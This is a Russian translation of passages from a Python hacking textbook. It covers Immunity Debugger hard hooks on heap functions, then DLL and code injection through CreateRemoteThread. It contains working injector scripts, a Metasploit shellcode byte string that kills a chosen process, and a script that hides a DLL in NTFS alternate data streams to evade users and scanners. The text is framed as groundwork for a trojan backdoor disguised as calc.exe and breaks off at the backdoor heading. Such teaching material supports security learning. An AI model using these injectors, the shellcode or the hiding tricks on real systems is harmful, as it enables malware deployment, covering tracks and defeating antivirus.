Мы только что показали, насколько программные перехваты легки и в тоже время мощны в использовании. Эта техника может быть применена ко всем видам отладочных сценариев. Этот сценарий хорошо подходит для перехвата мало используемых функций. Если бы мы применили его для функции, которая используется более интенсивно, то очень быстро мы бы заметили, что выполнение процесса замедляется и он начинает вести себя странным образом или даже завершается (crash). Это происходит потому, что инструкция INT3 вызывает обработчик, который затем вызывает наш собственный перехватчик (hook code), – и помимо этого контролирует возвращаемое значение. Это требует много работы, особенно если это должно происходить тысячи раз в секунду! Давайте посмотрим, как мы можем обойти это ограничение, применив жесткий перехват (hard hook). Вперед!


6.2 Жесткие перехваты с помощью Immunity Debugger

Теперь мы добрались до интересного материала – технике жесткого перехвата. Это более продвинутый метод. Он оказывает гораздо меньшее воздействие на процесс, чем предыдущий, потому что наш перехватчик (hook code) будет написан исключительно in x86 assembly. В случае программного перехватчика (soft hook), происходило много событий (и еще больше инструкций), которые выполнялись в момент между срабатыванием прерывания, выполнения перехватчика (hook code) и восстановлением выполнения процесса. Используя hard hook, вы в действительности просто расширяете конкретный кусок кода, чтобы выполнить наш перехватчик и восстановить нормальную работу процесса. Хорошо то, что когда вы используете hard hook, отлаживаемый процесс никогда не останавливается, в отличии от soft hook.

Immunity Debugger снижает сложность установки hard hook предоставляя простой объект FastLogHook. Объект FastLogHook автоматически устанавливает заглушку (stub), которая регистрирует (logs) значения, которые вас интересуют, и перезаписывает оригинальную инструкцию, которую вы хотите перехватить, прыжком на заглушку (jump to the stub). При создании быстрых регистрирующих перехватчиков (fast log hooks), нужно вначале определить указатель на сам перехватчик, а затем определить указатель на данные, которые нужно зарегистрировать. Определение скелета установки перехватчика имеет следующий вид:
Код:
%% imm = immlib.Debugger()
%% fast = immlib.FastLogHook( imm )

%% fast.logFunction( address, num_arguments )
%% fast.logRegister( register )
%% fast.logDirectMemory( address )
%% fast.logBaseDisplacement( register, offset )
Метод logFunction() необходим для установки перехвата, так как он передает основной адрес того, куда будут перезаписаны оригинальные инструкции из места, где будет размещен перехватывающий код (hook code). Его параметрами являются адрес перехватчика и количество перехватываемых аргументов. Если вы устанавливаете перехватчик на начало функции и хотите перехватить ее параметры, тогда вам, скорее всего, нужно установить количество аргументов. Если вы устанавливаете перехватчик на конец функции, тогда вам, с большой вероятностью, следует установить num\_arguments в нуль. Методами, которые непосредственно занимаются регистрацией (logging), являются logRegister(), logBaseDisplacement() и logDirectMemory(). Три эти функции имеют следующие прототипы:
Код:
%% logRegister( register )
%% logBaseDisplacement( register, offset )
%% logDirectMemory( address )
Метод logRegister(), во время срабатывания перехвата, отслеживает значение определенного регистра. Это полезно для отслеживания возвращаемого значения, после вызова функции, которое хранится в регистре EAX. Метод logBaseDisplacement() принимает два параметра регистр и смещение; он предназначен для разыменовывания параметров в стеке или для получения данных, когда известно смещение от регистра. Последний вызов logDirectMemory() используется, чтобы зарегистрировать известное смещение памяти во время перехвата (which is used to log a known memory offset at hook time).

Когда срабатывает перехват и вызываются функции регистрации, они хранят собранную информацию в выделенной области памяти, которую создает объект FastLogHook. Чтобы получить результат от вашего перехватчика, нужно запросить эту страницу используя функцию-обертку getAllLog(), которая анализирует память и возвращает список Python в следующей форме:
Код:
%% [( hook_address, ( arg1, arg2, argN )), ... ]
Таким образом, каждый раз, когда срабатывает перехватчик, его адрес сохраняется в hook\_address, а вся информация, которую вы запросили, содержится в форме кортежа, во второй записи. В заключение, важно отметить, что существует дополнительная разновидность FastLogHook, метод STDCALLFastLogHook, который устанавливается для соглашения о вызовах STDCALL. Для cdecl соглашения используется обычный метод FastLogHook. Хотя используются они одинаково.

Прекрасным примером использования мощного hard hook является PyCommand hippie, автором которой был один из ведущих мировых экспертов по переполнению кучи, Nicolas Waisman из Immunity, Inc. По словам самого Nico:
Выход hippie стал ответным действием на необходимость высокоэффективной регистрации перехватов (hook), которые действительно могли бы обрабатывать большое количество вызовов, которые требуют функции Win32 API. Возьмем, к примеру, Notepad; если вы откроете file dialog, то на это потребуется около 4.500 вызовов RtlAllocateHeap или RtlFreeHeap. Если же вы возьмете Internet Explorer, который, более интенсивно использует кучу (heap), то вы увидите увеличение числа вызовов функций, связанных с кучей, раз в 10 и больше.
Как сказал Nico, мы можем использовать hippie в качестве примера того, как инструментировать процедуры кучи (to instrument heap routines), что очень важно для понимания, при написании ориентированных на кучу эксплойтов (heap-based exploits). Для краткости, мы рассмотрим только базовые части hippie и в процессе создадим упрощенную версию, которую назовем hippie\_easy.py.

Прежде, чем мы начнем, важно разобраться с прототипами функций RtlAllocateHeap и RtlFreeHeap, чтобы наши точки перехвата (hook points) имели смысл.
Код:
%% BOOLEAN RtlFreeHeap(
%%         IN PVOID HeapHandle,
%%         IN ULONG Flags,
%%         IN PVOID HeapBase
%% );
Код:
%% PVOID RtlAllocateHeap(
%%         IN PVOID HeapHandle,
%%         IN ULONG Flags,
%%         IN SIZE_T Size
%% );
Итак, в RtlFreeHeap мы перехватим все три аргумента, а в RtlAllocateHeap мы перехватим три аргумента плюс указатель, который возвращается после вызова функции. Возвращаемый указатель указывает на новый блок кучи, который только что был создан. Теперь, когда мы разобрались с hook points, откройте новый файл Python, назовите hippie\_easy.py его и введите следующий код.

hippie\_easy.py
Код:
%% import immlib
%% import immutils

%% # This is Nico's function that looks for the correct
%% # basic block that has our desired ret instruction
%% # this is used to find the proper hook point for RtlAllocateHeap
%% (#1): def getRet(imm, allocaddr, max_opcodes = 300):
%%         addr = allocaddr
%%         for a in range(0, max_opcodes):
%%                 op = imm.disasmForward( addr )

%%                 if op.isRet():
%%                         if op.getImmConst() == 0xC:
%%                                 op = imm.disasmBackward( addr, 3 )
%%                                 return op.getAddress()
%%                 addr = op.getAddress()
        
%%         return 0x0

%% # A simple wrapper to just print out the hook
%% # results in a friendly manner, it simply checks the hook
%% # address against the stored addresses for RtlAllocateHeap, RtlFreeHeap
%% def showresult(imm, a, rtlallocate):
%%         if a[0] == rtlallocate:
%%                 imm.Log( "RtlAllocateHeap(0x%08x, 0x%08x, 0x%08x) <- 0x%08x %s" % (a[1][0], a[1][1], a[1][2], a[1][3], extra), address = a[1][3] )

%%                 return "done"
%%         else:
%%                 imm.Log( "RtlFreeHeap(0x%08x, 0x%08x, 0x%08x)" % (a[1][0], a[1][1], a[1][2]) )

%% def main(args):

%%         imm = immlib.Debugger()
%%         Name = "hippie"
%%         fast = imm.getKnowledge( Name )

%%         (#2): if fast:
%%                 # We have previously set hooks, so we must want
%%                 # to print the results
%%                 hook_list = fast.getAllLog()

%%                 rtlallocate, rtlfree = imm.getKnowledge("FuncNames")
%%                 for a in hook_list:
%%                         ret = showresult( imm, a, rtlallocate )

%%                 return "Logged: %d hook hits." % len(hook_list)

%%         # We want to stop the debugger before monkeying around
%%         imm.Pause()
%%         rtlfree = imm.getAddress("ntdll.RtlFreeHeap")
%%         rtlallocate = imm.getAddress("ntdll.RtlAllocateHeap")

%%         module = imm.getModule("ntdll.dll")

%%         if not module.isAnalysed():
%%                 imm.analyseCode( module.getCodebase() )

%%         # We search for the correct function exit point
%%         rtlallocate = getRet( imm, rtlallocate, 1000 )
%%         imm.Log("RtlAllocateHeap hook: 0x%08x" % rtlallocate)

%%         # Store the hook points
%%         imm.addKnowledge( "FuncNames", ( rtlallocate, rtlfree ) )

%%         # Now we start building the hook
%%         fast = immlib.STDCALLFastLogHook( imm )

%%         # We are trapping RtlAllocateHeap at the end of the function
%%         imm.Log("Logging on Alloc 0x%08x" % rtlallocate)
%%         (#3): fast.logFunction( rtlallocate )
%%         fast.logBaseDisplacement( "EBP", 8 )
%%         fast.logBaseDisplacement( "EBP", 0xC )
%%         fast.logBaseDisplacement( "EBP", 0x10 )
%%         fast.logRegister( "EAX" )

%%         # We are trapping RtlFreeHeap at the head of the function
%%         imm.Log("Logging on RtlFreeHeap 0x%08x" % rtlfree)
%%         fast.logFunction( rtlfree, 3 )

%%         # Set the hook
%%         fast.Hook()

%%         # Store the hook object so we can retrieve results later
%%         imm.addKnowledge(Name, fast, force_add = 1)

%%         return "Hooks set, press F9 to continue the process."
Прежде чем запускать этот скрипт, давайте посмотрим на код. Первая функция, которую вы видите (\#1) является одним из кусков кода, который написал Nico, для того, чтобы найти правильное место для перехвата RtlAllocateHeap. Для иллюстрации, дизассемблируйте RtlAllocateHeap и в нескольких последних инструкциях вы увидите эти:
Код:
%% 0x7C9106D7  F605 F002FE7F    TEST BYTE PTR DS:[7FFE02F0],2
%% 0x7C9106DE  0F85 1FB20200    JNZ ntdll.7C93B903
%% 0x7C9106E4  8BC6             MOV EAX,ESI
%% 0x7C9106E6  E8 17E7FFFF      CALL ntdll.7C90EE02
%% 0x7C9106EB  C2 0C00          RETN 0C
Таким образом код Python, начинает дизассемблировать с головы функции пока не найдет инструкцию RET по адресу 0x7C9106EB, после чего проверяет константу 0x0C, чтобы убедиться, что он оказался в правильном месте. Затем он дизассемблирует последние три инструкции, которые располагаются по адресу 0x7C9106D7. Этот небольшой танец, мы совершаем, чтобы убедиться, что у нас есть достаточно места, чтобы записать нашу 5-байтовую инструкцию JMP. Если бы мы попытались установить 5-байтовый JMP прямо на 3-байтовый RET, то мы бы перезаписали 2-ва дополнительных байта, который повредили бы выравнивание кода, и процесс бы немедленно завершился (crash). Привыкните к написанию этих маленьких служебным функций, которые помогут вам избежать этих типичных препятствий. Двоичные файлы сложные твари, и они не терпят ошибок.

Следующий кусок кода (\#2) является простой проверкой относительно того, установлены ли перехватчики, и если да, то мы просто получаем необходимые объекты из базы знаний (knowledge base) и распечатываем результаты наших перехватов. Скрипт разработан таким образом, чтобы вы, запустив его одни раз, установили перехватчики, а затем запускали его снова и снова для мониторинга результатов. Если вы хотите создать кастомный (custom) запрос для какого-либо из объектов, хранящихся в базе знаний, то вы можете получить к ним доступ из Питоновской оболочки отладчика.

Последний кусок (\#3) это конструкция перехватчиков и точек мониторинга. Для вызова RtlAllocateHeap мы перехватываем три аргумента из стека и возвращаемое значение функции. Для RtlFreeHeap мы перехватываем три аргумента из стека, в момент, когда она получает управление. В менее чем в 100 строках кода мы использовали очень мощную технику перехвата – причем, без использования компилятора или каких-либо дополнительных инструментов. Очень крутой stuff.

Давайте, используем notepad.exe и посмотрим насколько был прав Nico, говоря о 4.500 вызовах, которые происходят во время открытия file dialog. Запустите «C:\\WINDOWS\\System32\\notepad.exe» под отладчиком Immunity Debugger и запустите PyCommand !hippie\_easy в командной строке (если вы забыли как это сделать, перечитайте Главу 5). Возобновите процесс и затем выберите «File => Open» в Notepad.

Пришло время проверить полученные результаты. Запустите повторно PyCommand и вы должны увидеть вывод в окне Log отладчика Immunity Debugger (ALT-L), который похож на Листинг 6-2.

Листинг 6-2: Вывод команды !hippie\_easy (PyCommand)
Код:
%% RtlFreeHeap(0x000a0000, 0x00000000, 0x000ca0b0)
%% RtlFreeHeap(0x000a0000, 0x00000000, 0x000ca058)
%% RtlFreeHeap(0x000a0000, 0x00000000, 0x000ca020)
%% RtlFreeHeap(0x001a0000, 0x00000000, 0x001a3ae8)
%% RtlFreeHeap(0x00030000, 0x00000000, 0x00037798)
%% RtlFreeHeap(0x000a0000, 0x00000000, 0x000c9fe8)
Прекрасно! У нас есть результаты, и если вы посмотрите на строку состояния (status bar) в Immunity Debugger, то она сообщит количество срабатываний. У меня вышло 4.675, так что Nico был прав. Вы можете перезапустить скрипт в любое время, когда захотите увидеть изменения. Самое замечательное здесь то, что мы прошлись по тысячам вызовов без какого-либо ухудшения производительности. 

Hooking - это то, что вы несомненно будете использовать бесчисленное количество, во время реверсинга приложений. Мы не только продемонстрировали, как применить некоторые методы перехвата, но и автоматизировали их. Теперь, когда вы знаете как эффективно мониторить за данными приложений с помощью перехватчиков, пришло время изучить то, как можно манипулировать процессами. Выполнять манипуляции мы будем с помощью внедрения кода и внедрения DLL-библиотек. Ну что приступим? 

\chapter{DLL и Code Injection}

Порой, когда вы реверсите или атакуете программу, полезно иметь возможность загрузить и выполнить свой код в контексте исследуемого процесса. Крадете ли вы хэши паролей или получаете доступ к удаленному рабочему столу целевой системы, методы внедрения кода и dll-библиотек предоставляют мощные возможности. Мы создадим несколько простых утилит на Питоне, которые позволят вам использовать оба метода. Эти методы должны входить в арсенал каждого разработчика программ, эксплойтов, шелл-кодов и пентестеров. Мы будем использовать внедрение DLL (DLL injection) для запуска всплывающего окна внутри другого процесса. Так же мы будем использовать внедрение кода (code injection), чтобы протестировать шелл-код, разработанный для уничтожения какого-либо процесса основываясь на его PID. Под конец главы мы создадим и скомпилируем Trojan’a (с функционалом backdoor’a) полностью написанного на Python. В большей степени он будет опираться на внедрении кода и использовании некоторых других скрытых тактик, которые должен использовать каждый хороший бэкдор. Давайте начнем с рассмотрения темы создания удаленных потоков, которые являются основой для обоих методов внедрения.


7.1 Создание удаленных потоков

Есть некоторые основные различия между внедрением DLL и внедрением кода, однако, оба метода достигаются одним и тем же образом – с помощью создания удаленного потока. Удаленный поток создается с помощью входящей в состав Win32 API функции CreateRemoteThread() [1], которая экспортируется из kernel32.dll. Она имеет следующий прототип:
Код:
%% HANDLE WINAPI CreateRemoteThread(
%%         HANDLE hProcess,
%%         LPSECURITY_ATTRIBUTES lpThreadAttributes,
%%         SIZE_T dwStackSize,
%%         LPTHREAD_START_ROUTINE lpStartAddress,
%%         LPVOID lpParameter,
%%         DWORD dwCreationFlags,
%%         LPDWORD lpThreadId
%% );
Не пугайтесь, у нее много параметров, но все они интуитивно понятны. Первый параметр, hProcess, должен быть вам знаком. Это дескриптор процесса, в котором мы запускаем поток. Параметр lpThreadAttributes просто устанавливает дескриптор безопасности для вновь созданного потока и указывает, может ли дескриптор потока наследоваться дочерними процессами. Мы установим его значение в NULL, что даст ненаследуемый дескриптор потока и дескриптор безопасности по умолчанию. Параметр dwStackSize просто задает размер стека создаваемого потока. Мы установим его в нуль, что даст размер по умолчанию, который уже используется процессом. Следующий параметр lpStartAddress является одним из наиболее важных. Он указывает на то, где в памяти поток начнет свое выполнение. Крайне важно правильно установить этот адрес так, чтобы код, необходимый для облегчения внедрения – выполнился. Следующий параметр, lpParametr, почти настолько же важный, как и предыдущий. Он позволяет предоставить указатель на переменную, которая передается в функцию потока указанную в lpStartAddress. Вначале это может выглядеть запутанно, но очень скоро вы увидите, как важен этот параметр для выполнения внедрения DLL. Параметр dwCreationFlags определяет, как будет запущен поток. Мы будем всегда устанавливать его в нуль, что значит, что поток будет выполнен немедленно, сразу после создания. Не стесняйтесь и посмотрите в документацию MSDN, чтобы узнать другие значения, которые поддерживает параметр dwCreationFlags. Параметр lpThreadId является последним. Он заполняется идентификатором (ID) вновь созданного потока.

Теперь, когда вы понимаете основной вызов функции, ответственной за создание внедряемого кода, мы исследуем вопрос ее использования для внедрения DLL в удаленный процесс, а затем постепенно перейдем к внедрению шелл-кода. Процедура для создания удаленного потока, и в конечном счете выполнения нашего кода, немного отличается для каждого конкретного случая (внедрения DLL и шелл-кода), поэтому мы продемонстрируем ее использование дважды, чтобы покрыть все различия.

7.1.1 Внедрение DLL

Внедрение DLL в течение достаточно продолжительного времени использовалось как для добра, так и для зла. Куда бы вы ни посмотрели – везде увидите внедрение DLL. От необычных расширений оболочки Windows, до вредоносных программ ворующих вашу банковскую информацию. DLL внедрение всюду. Даже продукты безопасности внедряют свои DLL-библиотеки для отслеживания процессов проявляющих вредоносную активность. Весь цимес в использовании внедрения DLL заключается в том, что мы можем скомпилировать бинарный файл, загрузить его в процесс и выполнить его как часть процесса. Это очень полезно, например, чтобы обойти программные брандмауэры, которые позволяют только определенным приложениям делать исходящие соединения. Мы немного исследуем эту тему при написании на Питоне DLL-инжектора, который позволит нам внедрить DLL-библиотеку в любой процесс, который мы выберем.

Для загрузки DLL-библиотек в память процесса Windows, нужно использовать функцию LoadLibrary(), которая экспортируется из kernel32.dll. Она имеет следующий прототип:
Код:
%% HMODULE LoadLibrary(
%%         LPCTSTR lpFileName
%% );
Параметр lpFileName это просто пусть к DLL, которую вы хотите загрузить. Нам нужно заставить удаленный процесс вызвать LoadLibraryA с указателем на строку, содержащую путь к загружаемой DLL. Первый шаг заключается в том, чтобы узнать, где расположена функция LoadLibraryA. Затем записать имя загружаемой DLL. Когда мы вызовем CreateRemoteThread(), мы укажем в параметре lpStartAddress адрес размещения LoadLibraryA, а параметр в lpParameter поместим адрес размещения «пути (имени) к DLL». Когда CreateRemoteThread() начнет выполняться, она вызовет LoadLibraryA, как если бы удаленный процесс сделал запрос на загрузку DLL сам.
ПРИМЕЧАНИЕ: DLL для тестирования внедрения находится в архиве с исходниками для этой книги, который вы можете загрузить по адресу http://www.nostarch.com/ghpython.htm. Исходный код DLL так же находится внутри.
Давайте перейдем к коду. Откройте новый файл Python, назовите его dll\_injector.py и введите следующий код.

dll\_injector.py
Код:
%% import sys
%% from ctypes import *

%% PAGE_READWRITE = 0x04
%% PROCESS_ALL_ACCESS = ( 0x000F0000 | 0x00100000 | 0xFFF )
%% VIRTUAL_MEM = ( 0x1000 | 0x2000 )

%% kernel32 = windll.kernel32
%% pid = sys.argv[1]
%% dll_path = sys.argv[2]
%% dll_len = len(dll_path)

%% # Get a handle to the process we are injecting into.
%% h_process = kernel32.OpenProcess( PROCESS_ALL_ACCESS, False, int(pid) )

%% if not h_process:
%%     print "[*] Couldn't acquire a handle to PID: %s" % pid
%%     sys.exit(0)

%% (#1): # Allocate some space for the DLL path
%% arg_address = kernel32.VirtualAllocEx(h_process, 0, dll_len, VIRTUAL_MEM, PAGE_READWRITE)

%% (#2): # Write the DLL path into the allocated space
%% written = c_int(0)
%% kernel32.WriteProcessMemory(h_process, arg_address, dll_path, dll_len, byref(written))

%% (#3): # We need to resolve the address for LoadLibraryA
%% h_kernel32 = kernel32.GetModuleHandleA("kernel32.dll")
%% h_loadlib = kernel32.GetProcAddress(h_kernel32,"LoadLibraryA")

%% (#4): # Now we try to create the remote thread, with the entry point set
%% # to LoadLibraryA and a pointer to the DLL path as its single parameter
%% thread_id = c_ulong(0)

%% if not kernel32.CreateRemoteThread(h_process,
%%                                                             None,
%%                                                             0,
%%                                                             h_loadlib,
%%                                                             arg_address,
%%                                                             0,
%%                                                             byref(thread_id)):
%%     print "[*] Failed to inject the DLL. Exiting."
%%     sys.exit(0)

%% print "[*] Remote thread with ID 0x%08x created." % thread_id.value
На первом шаге (\#1) нужно выделить достаточное количество памяти для сохранения пути (path) внедряемой DLL, после чего записать этот путь в только что выделенную память (\#2). Затем нам нужно найти адрес размещения функции LoadLibraryA (\#3), чтобы передать его в вызов функции CreateRemoteThread() (\#4). Как только созданный поток начнет выполняться наша внедряемая DLL-библиотека должна загрузиться в атакуемый процесс, после чего вы увидите всплывающее диалоговое окно, которое указывает на то, что внедрение прошло успешно. Используйте скрипт, как показано ниже:
Код:
%% ./dll_injector <PID> <Path to DLL>
Теперь у нас есть хороший пример того, как можно осуществить внедрение DLL. И хотя внедренная DLL не несет полезной нагрузки, нам важно понимать саму технику внедрения. Теперь давайте перейдем к внедрению кода!

7.1.2 Code Injection

Давайте перейдем к чему-то более коварному. Внедрение кода позволяет нам вставлять сырой шелл-код в работающий процесс с его немедленным выполнением в памяти и при этом не оставляя следов на диске. This is also what allows attackers to migrate their shell connection from one process to another, post-exploitation.

Мы возьмем простой кусок шелл-кода, который просто завершает процесс с определенным PID. Это позволит вам перейти в удаленный процесс и убить процесс из которого вы первоначально выполнялись, что поможет вам замести следы. 

Это будет ключевой особенностью Трояна, которого мы создадим в конце. Также, чтобы удовлетворить ваши потребности, мы покажем вам, как можно безопасно заменить куски шелл-кода, так чтобы вы могли сделать его немного более модульным.

Для получения шелл-кода убивающего процессы мы посетим домашнюю страницу проекта Metasploit и воспользуемся их удобным генератором шелл-кодов. Если вы не пользовались им раньше – обратитесь к адресу http://metasploit.com/shellcode/ и по играйтесь с ним. В нашем случае я использовал генератор для создания шелл-кода «Windows Execute Command», который показан в Листинге 7-1. Там же показаны и соответствующие настройки:

Листинг 7-1: Шелл-код убийца процессов, сгенерированный с помощью online-генератора проекта Metasploit.
Код:
%% /* win32_exec - EXITFUNC=thread CMD=taskkill /PID AAAAAAAA Size=152
%% Encoder=None http://metasploit.com */

%% unsigned char scode[] =
%% "\xfc\xe8\x44\x00\x00\x00\x8b\x45\x3c\x8b\x7c\x05\x78\x01\xef\x8b"
%% "\x4f\x18\x8b\x5f\x20\x01\xeb\x49\x8b\x34\x8b\x01\xee\x31\xc0\x99"
%% "\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x04"
%% "\x75\xe5\x8b\x5f\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5f\x1c\x01\xeb"
%% "\x8b\x1c\x8b\x01\xeb\x89\x5c\x24\x04\xc3\x31\xc0\x64\x8b\x40\x30"
%% "\x85\xc0\x78\x0c\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\xeb\x09"
%% "\x8b\x80\xb0\x00\x00\x00\x8b\x68\x3c\x5f\x31\xf6\x60\x56\x89\xf8"
%% "\x83\xc0\x7b\x50\x68\xef\xce\xe0\x60\x68\x98\xfe\x8a\x0e\x57\xff"
%% "\xe7\x74\x61\x73\x6b\x6b\x69\x6c\x6c\x20\x2f\x50\x49\x44\x20\x41"
%% "\x41\x41\x41\x41\x41\x41\x41\x00";
Теперь, когда у нас есть шелл-код, пришло время вернуться к программированию и продемонстрировать работу внедряемого кода. Откройте новый файл Python, назовите его code\_injector.py и введите следующий код:

code\_injector.py
Код:
%% import sys
%% from ctypes import *

%% # We set the EXECUTE access mask so that our shellcode will
%% # execute in the memory block we have allocated
%% PAGE_EXECUTE_READWRITE = 0x00000040
%% PROCESS_ALL_ACCESS = ( 0x000F0000 | 0x00100000 | 0xFFF )
%% VIRTUAL_MEM = ( 0x1000 | 0x2000 )

%% kernel32 = windll.kernel32
%% pid = int(sys.argv[1])
%% pid_to_kill = sys.argv[2]

%% if not sys.argv[1] or not sys.argv[2]:
%%     print "Code Injector: ./code_injector.py <PID to inject> <PID to Kill>"
%%     sys.exit(0)

%% #/* win32_exec - EXITFUNC=thread CMD=cmd.exe /c taskkill /PID AAAA
%% #Size=159 Encoder=None http://metasploit.com */

%% shellcode = \
%% "\xfc\xe8\x44\x00\x00\x00\x8b\x45\x3c\x8b\x7c\x05\x78\x01\xef\x8b" \
%% "\x4f\x18\x8b\x5f\x20\x01\xeb\x49\x8b\x34\x8b\x01\xee\x31\xc0\x99" \
%% "\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x04" \
%% "\x75\xe5\x8b\x5f\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5f\x1c\x01\xeb" \
%% "\x8b\x1c\x8b\x01\xeb\x89\x5c\x24\x04\xc3\x31\xc0\x64\x8b\x40\x30" \
%% "\x85\xc0\x78\x0c\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\xeb\x09" \
%% "\x8b\x80\xb0\x00\x00\x00\x8b\x68\x3c\x5f\x31\xf6\x60\x56\x89\xf8" \
%% "\x83\xc0\x7b\x50\x68\xef\xce\xe0\x60\x68\x98\xfe\x8a\x0e\x57\xff" \
%% "\xe7\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20\x74\x61\x73\x6b" \
%% "\x6b\x69\x6c\x6c\x20\x2f\x50\x49\x44\x20\x41\x41\x41\x41\x00"
%% (#1): padding = 4 - (len( pid_to_kill ))
%% replace_value = pid_to_kill + ( "\x00" * padding )
%% replace_string= "\x41" * 4

%% shellcode = shellcode.replace( replace_string, replace_value )
%% code_size = len(shellcode)

%% # Get a handle to the process we are injecting into.
%% h_process = kernel32.OpenProcess( PROCESS_ALL_ACCESS, False, int(pid) )

%% if not h_process:
%%     print "[*] Couldn't acquire a handle to PID: %s" % pid
%%     sys.exit(0)

%% # Allocate some space for the shellcode
%% arg_address = kernel32.VirtualAllocEx(h_process, 0, code_size, VIRTUAL_MEM, PAGE_EXECUTE_READWRITE)

%% # Write out the shellcode
%% written = c_int(0)
%% kernel32.WriteProcessMemory(h_process, arg_address, shellcode, code_size, byref(written))

%% # Now we create the remote thread and point its entry routine
%% # to be head of our shellcode
%% thread_id = c_ulong(0)
%% (#2): if not kernel32.CreateRemoteThread(h_process,None,0,arg_address,None,
%% 0,byref(thread_id)):

%%     print "[*] Failed to inject process-killing shellcode. Exiting."
%%     sys.exit(0)

%% print "[*] Remote thread created with a thread ID of: 0x%08x" % thread_id.value
%% print "[*] Process %s should not be running anymore!" % pid_to_kill
Часть кода вам уже знакома, но тут есть несколько интересных приемов. Первое, что нужно сделать, это заменить строку маркера (\\x41\\x41\\x41\\x41\\x00) в шелл-коде (\#1) на PID процесса, который нужно завершить. Другое заметное различие состоит в том, каким образом мы совершаем вызов функции CreateRemoteThread() (\#2). Теперь ее параметр lpStartAddress указывает на начало шелл-кода. Также мы установили lpParameter в NULL, потому что нам не нужно ничего передавать в функцию, вместо этого мы просто хотим, чтобы поток начал выполнять шелл-код.

Перед тем как выполнять скрипт, запустите несколько процессов cmd.exe, затем получите соответствующие им PID’ы и уже только после этого выполняйте скрипт как показано ниже:
Код:
%% ./code_injector.py <PID to inject> <PID to kill>
Выполнив скрипт, с соответствующими аргументами командной строки, вы увидите успешно созданный поток (скрипт вернет ID потока). Вы также должны заметить, что выбранный вами процесс cmd.exe был убит.

Теперь вы знаете, как загрузить и выполнить шелл-код в другом процессе. Это удобно не только при установке функций обратного вызова с помощью шелл-кода, но также и при скрытии ваших следов, поскольку у вас не будет никакого кода на диске. Теперь мы используем часть выученной информации и создадим бэкдор, который даст вам удаленный доступ к атакуемой машине в любой момент времени, когда он будет выполняться на ней. Давайте перейдем на сторону зла!


7.2 На стороне зла

Используем приобретенные нами навыки для злых умыслов. Сейчас мы создадим, маленький бэкдор, который может быть использован для получения контроля над системой в любое время своего выполнения на ней. Когда наш экзешник начнет свое выполнение, мы запустим оригинальную программу, которую пользователь хотел запустить (например, мы назовем наш бинарник calc.exe, а оригинальный calc.exe и перенесем его в известное нам место). Когда будет загружаться второй процесс (оригинальный calc.exe), мы внедрим в него код, который свяжет нас с удаленной машиной. После того, как выполнится шелл-код и у нас будет шелл (связь с удаленной машиной), мы внедрим второй кусок кода в процесс, из которого проводилась атака, что убить его. 

Секунду! Не могли бы мы просто дать нашему calc.exe завершиться? Если коротко, то да. Но завершение процесса является ключевой техникой поддерживаемой бэкдором. Например, вы могли бы объединить ваши знания с кодом, который вы изучили в более ранних главах, и попытаться найти работающие анти-вирусы или фаерволы, чтобы просто убить их. Важно также уметь перемещаться из одного процесса в другой и при этом иметь возможность убить процесс из которого вы только что переместились, если он, конечно же, вам больше не нужен. 

В этой части также будет показано, как скомпилировать Питоновский скрипт в EXE, и как спрятать DLL в основном исполнимом файле. Давайте посмотрим, как применив небольшую хитрость можно создать DLL, которая проедет зайцем вместе с нашим EXE-файлом.

7.2.1 Скрытие файла

Для того, чтобы безопасно распространять внедряемую DLL с нашим бэкдором и не привлекать лишнего внимания, нужен скрытый способ хранения файла. Мы могли бы использовать wrapper (прим. пер. имеется ввиду joiner), который берет два исполняемых файла (включая DLL) и соединяет их вместе в один файл, но так как эта книга о хакерском использовании Python, то мы должны проявить немного больше креативности.

Для скрытия файлов внутри исполнимых файлов, злоупотребим существующей фичей в файловой системе NTFS, названной «альтернативные потоки данных» (Alternate Data Streams, ADS). Альтернативные потоки данных впервые появились в Windows NT 3.1 и были представлены как средство для взаимодействия с иерархической файловой системой Apple (Hierarchical File System, HFS). ADS позволяет нам иметь на диске один файл и хранить DLL-библиотеку в потоке, который присоединен к основному исполнимому файлу. Поток в действительности является ничем иным как скрытым файлом, который присоединен к файлу, который вы можете видеть на диске.

При использовании альтернативного потока данных, мы прячем DLL от прямого взгляда пользователя. Без специальных инструментов, пользователь компьютера не сможет увидеть содержание ADS, что идеально подходит для нас. Кроме того, ряд продуктов безопасности не сканируют альтернативные потоки должным образом, так что у нас есть хорошие шансы обойти их рады и избежать обнаружения. 

Чтобы использовать альтернативный поток, нам нужно будет добавить двоеточие и имя файла скрываемого объекта, к существующему файлу, как показано ниже:
Код:
%% reverser.exe:vncdll.dll
В этом случае мы получаем vncdll.dll, которая хранится в альтернативном потоке данных, который прикреплен к файлу reverser.exe. Давайте напишем небольшой скрипт, который будет просто читать и писать из файла альтернативные потоки. Откройте новый файл Python, назовите его file\_hider.py и введите следующий код.

file\_hider.py
Код:
%% import sys

%% # Read in the DLL
%% fd = open( sys.argv[1], "rb" )
%% dll_contents = fd.read()
%% fd.close()

%% print "[*] Filesize: %d" % len( dll_contents )

%% # Now write it out to the ADS
%% fd = open( "%s:%s" % ( sys.argv[2], sys.argv[1] ), "wb" )
%% fd.write( dll_contents )
%% fd.close()
Ничего особенного – первым аргумент командной строки является DLL, которую нам нужно прочитать, а вторым аргументом является файл, в альтернативный поток которого и будет записана DLL. Мы можем использовать этот простой скрипт, чтобы хранить любые виды файлов внутри исполняемого файла, так же мы можем внедрять DLL-библиотеки прямо из ADS. Хотя мы не будем использовать внедрение DLL в нашем бэкдоре, оно все равно будет поддерживаться им, так что читайте дальше. 

7.2.2 Кодим Backdoor

Давайте начнем с создания нашего «выполняющего перенаправление кода» (execution redirection code), который просто запускает выбранное нами приложение. Причина названия кода «выполняющий перенаправление» (execution redirection) состоит в том, что мы назовем наш бэкдор calc.exe, а оригинальный calc.exe переместим в другое место. Когда пользователь попытается запустить калькулятор, он ненароком запустит наш бэкдор, который в свою очередь запустит настоящий калькулятор и таким образом не вызовет у пользователя подозрений. Обратите внимание, что мы подключаем файл my\_debugger\_defines.py из Главы 3, который содержит все необходимые константы и структуры для создания процесса. Откройте новый файл Python, назовите его backdoor.py и введите следующий код:

backdoor.py
Код:
